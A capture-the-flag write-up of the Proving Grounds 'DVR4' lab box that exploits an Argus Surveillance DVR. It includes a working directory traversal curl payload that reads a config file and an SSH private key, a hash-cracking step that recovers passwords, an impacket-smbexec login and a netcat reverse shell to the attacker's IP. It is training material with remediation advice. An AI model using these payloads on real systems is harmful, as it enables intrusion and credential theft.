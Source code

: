 ```yaml
---
layout: writeup
title: DVR4 - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the DVR4 Box from Proving Grounds
image: # /assets/images/DVR4/DVR4.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi]
---
```


This is a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called DVR4, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap scan: 
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


First few ports we notice are 139, 445, and 8080. I tried to get some more information using `rpcclient` and connecting to SMB, but neither worked, so I headed to the browser to check port 8080 and find this:

![DVR1.png](/assets/images/DVR4/DVR1.png){: .center-aligned width="600px"}

It looks like we have a management portal for a service called `Argus Surveillance`. I click around for a bit to check it out and then search for existing exploits. I notice a few of them, including a [directory traversal exploit on exploit-db]() as well as a [weak encryption exploit on github](https://github.com/s3l33/CVE-2022-25012). The github exploit is interesting because it references the full path of a file which holds the password hash as `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`. It's possible we could combine the two, using the directory traversal exploit to retrieve the hash and the exploit on github to crack it. 

I can get the the directory traversal working using the suggested path: `curl "http://192.168.171.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FProgramData%2FPY_Software%2FArgus%20Surveillance%20DVR%2FDVRParams.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="`. Unfortunately the hash is not shown in the output. 

![DVR2.png](/assets/images/DVR4/DVR2.png){: .center-aligned width="600px"}

I even tried to create my own user just to see if it showed up, but no luck. 

![DVR3.png](/assets/images/DVR4/DVR3.png){: .center-aligned width="600px"}

\At least now I know the directory traversal works. The key is just going to be finding something interesting to open. I try a few different things from this [Directory Traversal Cheat Sheet](https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9), but I can't find anything, initially believing that I didn't have a user. But I can actually check `Viewer` per the screenshot above. It may just be an account type, but it could be a user too. Using the path of `Users/Viewer/.ssh/id_rsa`, we can grab the ssh key.

![DVR4.png](/assets/images/DVR4/DVR4.png){: .center-aligned width="600px"}

I copy this key to my machine, and I am able to log in with it via ssh `ssh -i viewer.id_rsa viewer@$IP`. I log in, look around for a while, and run winpeas. I don't see anything especially interesting, nor do I have any privileges that stand out. I decide to check out `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini` from my ssh shell because the output I received from the directory traversal vulnerability didn't look like what was shown in the exploit POC from exploit-db. That turned out to be pretty useful:

```
...
[Users]
LocalUsersCount=2
UserID0=434499
LoginName0=Administrator
FullName0=60CAAAFEC8753F7EE03B3B76C875EB607359F641D9BDD9BD8998AAFEEB60E03B7359E1D08998CA797359F641418D4D7BC875EB60C8759083E03BB740CA79C875EB603CD97359D9BDF6414D7BB740CA79F6419083
...
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
Description0=60CAAAFEC8753F7EE03B3B76C875EB607359F641D9BDD9BD8998AAFEEB60E03B7359E1D08998CA797359F641418D4D7BC875EB60C8759083E03BB740CA79C875EB603CD97359D9BDF6414D7BB740CA79F6419083
...
```

So we can see the password hash here, and there is an existing exploit on github around the weak encryption. We simply `git clone` the [repository](https://github.com/s3l33/CVE-2022-25012), cd into it, and then run `python3 CVE-2022-25012.py $Hash`. 

![DVR5.png](/assets/images/DVR4/DVR5.png){: .center-aligned width="600px"}

Because that hash corresponds to the Administrator account, we now have `Administrator:14WatchD0g$` credentials. (Out of curiosity, I checked for the viewer account, and we have `viewer:ImWatchingY0u` as well). Perfect. Now we can try SSHing with Administrator, or any number of other escalations. 

It turns out SSH didn't work, but I was able to run `impacket-smbexec Administrator:"14WatchD0g$"@192.168.224.179`, after putting the password in quotes because it didn't work without. 

![DVR6.png](/assets/images/DVR4/DVR6.png){: .center-aligned width="600px"}

Now this shell is only semi-interactive. I *can* use it for proof.txt, but in case it feels like cheating, I can also just call a shell with it: `C:\Users\viewer\nc.exe 192.168.45.240 445 -e cmd`. Note that this works because nc.exe is on the machine already, and I saw it when initially enumerating with the viewer user after SSHing in. That is why the full path points to their directory. You could always upload it yourself, though there are obviously a ton of ways to do this once you have the password. 

![DVR7.png](/assets/images/DVR4/DVR7.png){: .center-aligned width="600px"}

### Lessons Learned
This was a relatively straightforward box. As long as you look up the Argus service and the popular exploits, know where the ssh key could be, go back to check the suggested file from the exploits, and then know how to use the Administrator password (without ssh available), it should be pretty good. 

### Remediation Steps 
1. The service needs to be updated or changed because:
	1. It has the directory traversal vulnerability
	2. It has weak encryption. Simply making the passwords more complex is not enough. 
2. The account running the Argus service shouldn't also be able to SSH into the machine if possible. Maybe this one isn't such a big deal because once you eliminate the directory traversal vulnerability, there isn't the same relationship between the Argus service and SSHing. If you can't access the SSH key through the service, then it doesn't really make a difference which account can use SSH, whether it's the same account running Argus or not. 